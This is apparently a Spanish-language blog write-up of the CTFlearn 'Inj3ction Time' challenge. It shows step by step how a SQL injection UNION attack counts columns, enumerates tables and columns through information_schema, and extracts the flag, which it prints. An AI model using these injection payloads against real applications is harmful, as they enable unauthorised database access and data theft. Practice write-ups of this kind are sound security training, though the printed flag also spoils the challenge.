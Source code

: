 ```yaml
---
title: CTFlearn - Inj3ction Time
layout: post
post-image: /assets/images/gatohacker2.jpeg 
description: La resolución del reto Inj3ction Time.
tags:
- ctflearn
- post
- writeups
---
```

# Descripción
---

I stumbled upon this website: http://web.ctflearn.com/web8 and I think they have the flag in their somewhere. UNION might be a helpful command.


# Solución
---

Vemos solo una página que nos pide un ID. Por el título y la descripción sabemos que debemos explotar un **SQLi UNION Attack**.

![](/assets/images/images-ctflearn/injection-time-1.png)

Probamos escribiendo números para saber qué tipo de ID necesita.

![](/assets/images/images-ctflearn/injection-time-2.png)

Si escribimos una letra la página no nos responde, entonces utilizaremos números.

Esto lo hacemos para tener en cuenta la comilla en nuestra inyección `'`. Como estamos trabajando con números no es necesario esta comilla al inicio de nuestra inyección.

![](/assets/images/images-ctflearn/injection-time-3.png)

Primeros enumeramos, agregaremos un **null** y después iremos agregando más hasta que la página nos responda correctamente.

```sql
1 union select null-- -
```

![](/assets/images/images-ctflearn/injection-time-4.png)

Vemos que con dos **null** tampoco funciona, así que seguimos agregando.

```sql
1 union select null,null-- -
```

![](/assets/images/images-ctflearn/injection-time-5.png)

Seguimos agregando hasta que llegamos a 4 y la página nos responde correctamente.

```sql
1 union select null,null,null,null-- -
```

![](/assets/images/images-ctflearn/injection-time-6.png)

Ahora buscamos la tabla que contenga la flag, ejecutando una query que nos muestre todas las tablas de la base de datos.

```sql
1 union select table_name,null,null,null from information_schema.tables-- -
```

![](/assets/images/images-ctflearn/injection-time-7.png)

Al final de la página veremos una tabla que destaca.

![](/assets/images/images-ctflearn/injection-time-8.png)

Ahora falta obtener el nombre de la columna donde se encuentra la flag. Para obtener eso ejecutamos la siguiente query que nos devolverá todas las columnas de la base de datos.

```sql
1 UNION SELECT column_name,null,null,null FROM information_schema.columns -- -
```

![](/assets/images/images-ctflearn/injection-time-9.png)

Si vamos al final de la página veremos una que destaca `f0und_m3`.

![](/assets/images/images-ctflearn/injection-time-10.png)

Ya tenemos la tabla y la columna donde está la flag, con esto podemos ejecutar la siguiente query y obtendremos la flag.

```sql
1 UNION SELECT f0und_m3,null,null,null FROM w0w_y0u_f0und_m3 -- -
```

![](/assets/images/images-ctflearn/injection-time-11.png)


# Flag
---

`abctf{uni0n_1s_4_gr34t_c0mm4nd}`

----

## [Anterior](/blog/My-Blog)
## [Siguiente](/blog/Gobustme)